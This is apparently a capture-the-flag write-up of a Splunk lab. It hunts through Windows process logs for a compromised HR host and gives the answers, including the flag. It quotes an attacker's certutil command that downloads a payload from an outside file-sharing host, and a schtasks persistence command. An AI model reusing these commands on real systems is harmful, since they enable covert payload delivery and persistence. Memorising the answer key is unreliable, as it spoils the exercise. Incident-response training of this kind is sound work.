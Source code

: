 # Benign

One of the client’s IDS indicated a potentially suspicious process execution indicating one of the hosts from the 
HR department was compromised. Some tools related to network information gathering/scheduled tasks were executed 
which confirmed the suspicion. Due to limited resources, we could only pull the process execution logs with 
Event ID: `4688` and ingested them into Splunk with the index `win_eventlogs` for further investigation.

All the required logs are ingested in the index `win_eventlogs`.

The network is divided into three logical segments. 

IT Department:

* James
* Moin
* Katrina

HR department:

* Haroon
* Chris
* Diana

Marketing department:

* Bell
* Amelia
* Deepak

## Questions

**How many logs are ingested from the month of March?**

Answer: `13959`

**Imposter Alert: There seems to be an imposter account observed in the logs, what is the name of that user?**

    index=win_eventlogs 
    | dedup UserName 
    | table UserName

Answer: `Amel1a`

**Which user from the HR department was observed to be running scheduled tasks?**

    index=win_eventlogs schtasks CommandLine="/create /tn OfficUpdater /tr \"C:\\Users\\Chris.fort\\AppData\\Local\\Temp\\update.exe\" /sc onstart"

Answer: `Chris.fort`

**Which user from the HR department executed a system process (LOLBIN) to download a payload from a file-sharing host.**

| ![user](/_static/images/splunkbenign1.png) |
|:--:|
| `haroon` |

    certutil.exe -urlcache -f - https://controlc.com/548ab556 benign.exe

**To bypass the security controls, which system process (lolbin) was used to download a payload from the internet?**

`benign.exe` was downloaded after a connection was established to `https://controlc.com/548ab556`. The `-f` and `-urlcache` forces a fetch of the url.

Answer: `certutil.exe`

**What was the date that this binary was executed by the infected host? format (YYYY-MM-DD)**

    index=win_eventlogs UserName="Daina" OR UserName="Chris.fort" OR UserName="Haroon" CommandLine=" certutil.exe -urlcache -f - https://controlc.com/548ab556 benign.exe" | dedup ProcessName

Answer: `2022-03-04`

**Which third-party site was accessed to download the malicious payload?**

Answer: `controlc.com`

**What is the name of the file that was saved on the host machine from the C2 server during the post-exploitation phase?**

Answer: `benign.exe`

**The suspicious file downloaded from the C2 server contained malicious content with the pattern THM{..........}; what is that pattern?**

| ![user](/_static/images/splunkbenign2.png) |
|:-----------------------------------------------:|
|                 `THM{KJ&*H^B0}`                 |

**What is the URL that the infected host connected to?**

Answer: `https://controlc.com/548ab556`
